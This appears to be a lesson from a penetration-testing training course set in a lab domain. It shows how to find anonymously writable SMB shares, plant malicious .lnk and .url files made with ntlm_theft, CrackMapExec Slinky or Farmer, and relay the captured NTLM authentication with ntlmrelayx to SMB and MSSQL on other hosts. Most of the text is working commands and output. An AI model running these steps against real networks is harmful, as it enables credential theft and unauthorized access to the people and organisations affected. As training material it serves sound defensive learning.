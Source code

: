 ## Abusing Access to Shared Folders

### Enumeration

A common way of farming hashes and forcing users to connect to our attack host is by abusing shared folders. Suppose we find a user with access to a shared folder, or the shared folder allows anonymous access with `read` and `write` permissions. In that case, we can put our malicious file there and wait for a user to connect to us, capture their NTLM authentication, and relay it to relay targets.

Let’s use `crackmapexec` to scan the network for shared folders that allow anonymous authentication:
```
crackmapexec smb 172.16.117.0/24 -u anonymous -p '' --shares

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous:
SMB         172.16.117.3    445    DC01             [*] Enumerated shares
SMB         172.16.117.3    445    DC01             Share           Permissions     Remark
SMB         172.16.117.3    445    DC01             -----           -----------     ------
SMB         172.16.117.3    445    DC01             ADMIN$                          Remote Admin
SMB         172.16.117.3    445    DC01             C$                              Default share
SMB         172.16.117.3    445    DC01             CertEnroll                      Active Directory Certificate Services share
SMB         172.16.117.3    445    DC01             IPC$            READ            Remote IPC
SMB         172.16.117.3    445    DC01             NETLOGON                        Logon server share
SMB         172.16.117.3    445    DC01             smb             READ,WRITE
SMB         172.16.117.3    445    DC01             SYSVOL                          Logon server share
<SNIP>
```

In the above command output, we discovered a shared folder named `smb` on `DC01` where we have `READ` and `WRITE` permissions. Therefore, we can drop our malicious file there. Let us see what tools we can use to generate files to drop in shared folders.

### File Types

We found a folder in which we have write permissions. For the next step, we need to understand the types of files we can use to force authentication to our attack host.

One of the most common file types for this type of attack is the shortcut ( `.lnk`), because they are easy to create, commonly used in Windows, and can quickly go unnoticed. We would have to set the icon’s path to a UNC of our attack host to abuse a shortcut. Optionally, we can put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share.

To create a `.lnk`, we will use `netexec` or [ntlm_theft](https://github.com/Greenwolf/ntlm_theft), a tool for generating multiple NTLMv2 hash theft files. The tool is at `/home/htb-student/tools/ntlm_theft`. It supports the option `-g` to choose the file type we want to generate or the keyword `all` to create all file types. We also need to set the option `-s`, which corresponds to the IP address of our SMB hash capture server; this is where we can run `ntlmrelayx` and, finally, the filename with the option `-f`:

#### Using ntlm_theft.py

```
python3 ntlm_theft.py -g all -s 172.16.117.30 -f '@myfile'

Created: @myfile/@myfile.scf (BROWSE TO FOLDER)
Created: @myfile/@myfile-(url).url (BROWSE TO FOLDER)
Created: @myfile/@myfile-(icon).url (BROWSE TO FOLDER)
Created: @myfile/@myfile.lnk (BROWSE TO FOLDER)
Created: @myfile/@myfile.rtf (OPEN)
Created: @myfile/@myfile-(stylesheet).xml (OPEN)
Created: @myfile/@myfile-(fulldocx).xml (OPEN)
Created: @myfile/@myfile.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: @myfile/@myfile-(includepicture).docx (OPEN)
Created: @myfile/@myfile-(remotetemplate).docx (OPEN)
Created: @myfile/@myfile-(frameset).docx (OPEN)
Created: @myfile/@myfile-(externalcell).xlsx (OPEN)
Created: @myfile/@myfile.wax (OPEN)
Created: @myfile/@myfile.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: @myfile/@myfile.asx (OPEN)
Created: @myfile/@myfile.jnlp (OPEN)
Created: @myfile/@myfile.application (DOWNLOAD AND OPEN)
Created: @myfile/@myfile.pdf (OPEN AND ALLOW)
Created: @myfile/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: @myfile/Autorun.inf (BROWSE TO FOLDER)
Created: @myfile/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

### Attacking SMB Shares

We can use the `.url` or `.lnk` files as those are activated when users browse a shared folder. We will use `smbclient.py` to connect to the shared folder and place the file there:
```
smbclient.py [email protected] -no-pass

Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
smb
SYSVOL
# use smb
# put @myfile/@myfile.lnk
# exit
```

Now, let us use the `all://` scheme of `ntlmrelayx` to try to connect to all services on the target machine.
```
cat relayTargets.txt

all://172.16.117.50
all://172.16.117.60
```

```
ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra
<SNIP>

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> [*] SMBD-Thread-13: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[-] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/CMATOS FAILED
[*] SMBD-Thread-28: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/CMATOS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-29: Connection from INLANEFREIGHT/[email protected] controlled, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as INLANEFREIGHT/CMATOS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](1433) to active SOCKS connection. Enjoy
ntlmrelayx> socks
Protocol  Target         Username              AdminStatus  Port
--------  -------------  --------------------  -----------  ----
SMB       172.16.117.60  INLANEFREIGHT/CMATOS  FALSE        445
MSSQL     172.16.117.60  INLANEFREIGHT/CMATOS  N/A          1433
```

Let’s discuss some lines of the above output:

```
[*] SMBD-Thread-13: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[-] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/CMATOS FAILED
```

The SMB thread `13` indicates that the authentication is coming from `172.16.117.50`, and it fails because the user who browsed the shared folder was located at `172.16.117.50` and the target was the same host `172.16.117.50`. We can’t relay back to the same host.

The SMB thread `28` and `29` shows a successful authentication against `172.16.117.60` to the services `SMB` and `MSSQL`:

```
[*] SMBD-Thread-28: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/CMATOS SUCCEED
[*] SMBD-Thread-29: Connection from INLANEFREIGHT/[email protected] controlled, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as INLANEFREIGHT/CMATOS SUCCEED
```

### Other Tools

#### CrackMapExec

To generate a shortcut `.lnk` file, we can also use `CrackMapExec`’s `Slinky` module, which creates the malicious shortcut file (in addition to providing a method of cleaning up). `Slinky` has the capability of identifying writable shares and automatically creating the `LNK` file inside them:

```
crackmapexec smb -M slinky --options

[*] slinky module options:

        SERVER        IP of the SMB server
        NAME          LNK file nametest
        CLEANUP       Cleanup (choices: True or False)
```

```
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=172.16.117.30 NAME=important

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous:
SLINKY      172.16.117.3    445    DC01             [+] Found writable share: smb
SLINKY      172.16.117.3    445    DC01             [+] Created LNK file on the smb share
```

#### Farmer

[Farmer](https://github.com/mdsecactivebreach/Farmer) is a tool created by [MDSec](https://www.mdsec.co.uk/), and it comes with three binaries, `farmer.exe` for setting up a server that will capture the requests (NTLM); `crop.exe` which is used to create malicious files that can be placed in SMB shares; and `fertiliser.exe` which can be used to poison `Office` documents.

**Note:** `MDSec's` blog post [Farming for Red Teams: Harvesting NetNTLM](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) is an excellent resource to learn more about farming hashes.